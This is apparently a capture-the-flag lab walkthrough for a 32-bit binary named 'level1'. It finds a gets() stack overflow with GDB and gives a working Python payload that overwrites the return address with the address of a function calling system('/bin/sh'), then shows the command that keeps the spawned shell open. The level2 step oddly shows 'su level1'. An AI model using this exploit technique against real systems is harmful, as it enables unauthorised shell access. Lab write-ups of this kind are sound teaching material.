 # Level1 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the `main` function**:  
   Using the command `disas`, we found that the program uses two functions :
   - run : uses `fwrite` to display a message in the stdout then execute the shell command `/bin/sh` using `system`
   - main : uses `gets` to receive user input which is vulnerable to buffer overflow exploit (if the input is over 80bytes, cf sub $0x50, $esp -> 0x50 is 80 in hexadecimal)

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level1
   ```
    The program is waiting for the user to insert an input, then exits properly.

2. **Trying to overflow the RET value**
    we launched the program in gdb with an str containing 80 char as input. we created a small script to generate the string:
    ``` python -c 'print "a" * 80' > /tmp/exploit```
    
    As expected, the program segfaulted in gdb with the command `r < /tmp/exploit` with the following message :
    0x61616161 in ?? () 

    0x61616161 means that we have an overflow of 4 "a", as 61 is the ASCII code for a in hex.

    now we will update our exploit to insert 76 chars and the adress of the run function, to force its execution.
    Adress of run() is : 0x08048444 
    ```python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit```

    We now launch the following command :
    ```cat /tmp/exploit | ./level1```

    We now had a problem because /bin/sh exits after executing all the commands in
    /tmp/exploit as it encounters an EOF so we had a "-" to keep the stdin open so 
    /bin/sh will keep listening to stdin and execute what is send through it.
    ```cat /tmp/exploit - | ./level1```

## Moving to level2

1. **Swith User to level2**:
    Run ```su level1```

2. **Authenticate with the Password**:
    We used the password we found.